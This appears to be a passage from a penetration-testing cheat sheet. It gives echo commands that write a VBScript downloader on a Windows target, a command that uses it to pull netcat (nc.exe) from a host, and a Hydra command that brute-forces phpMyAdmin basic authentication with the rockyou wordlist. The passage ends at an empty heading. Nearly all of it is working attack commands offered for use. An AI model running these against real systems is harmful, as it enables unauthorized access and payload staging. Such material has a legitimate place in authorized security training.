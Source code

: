 Create wget.vbs File

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```

Download Files

```
cscript wget.vbs <http://192.168.0.1/nc.exe> nc.exe

```

# Brute Force

## Hydra

Hydra

HTTP Basic Authentication

```
hydra -l admin -V -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.0.1 http-get /phpmyadmin/ -t 15

```

HTTP Get Request
